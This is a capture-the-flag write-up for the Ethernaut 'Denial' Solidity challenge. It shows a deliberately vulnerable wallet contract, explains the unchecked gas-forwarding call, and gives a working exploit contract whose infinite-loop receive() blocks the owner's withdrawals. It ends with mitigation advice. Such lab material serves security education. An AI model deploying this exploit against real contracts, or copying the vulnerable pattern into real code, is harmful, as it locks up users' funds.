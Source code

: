 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg)

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Solution:
## Analysis

Let's take a look at the vulnerable code:

```sol
function setWithdrawPartner(address _partner) public {
    partner = _partner;
}

function withdraw() public {
    uint amountToSend = address(this).balance.div(100);
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value:amountToSend}("");
    owner.transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = now;
    withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
}
```

- The `setWithdrawPartner()` function is public and allows us to call it with our address so we can become a partner.

- The `withdraw()` function is calculating the amount to send inside `amountToSend` and makes two external calls. One of the calls is made to the `partner` address which is controlled by us and the other one is made to the `owner`'s address. These calls are transferring 1% Ether each to the owner and the partner. So the question is how can we prevent the owner from withdrawing?

An interesting fact about the `call()` function is that it forwards all the gas along with the call unless a gas value is specified in the call. The `transfer()` and `send()` only forwards 2300 gas.

The `call()` returns two values, a `bool success` showing if the call succeeded and a `bytes memory data` which contains the return value. It should be noted that the return values of the external calls are not checked anywhere.

To exploit the contract and prevent the `owner.transfer(amountToSend)` from being called, we need to create a contract with a `fallback` or `receive` function that drains all the gas and prevents further execution of the `withdraw()` function.

---
## The Exploit

Here's how our exploit code looks:

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
    function contractBalance() external view returns (uint);
}

contract PWN {
    IDenial instance;
    constructor(address _instance) {
      instance = IDenial(_instance);
    }

    function pwn() external {
        instance.setWithdrawPartner(address(this));
    }
    receive() external payable {
      while(true) {}
    }
}
```

___
This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

_Note_: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.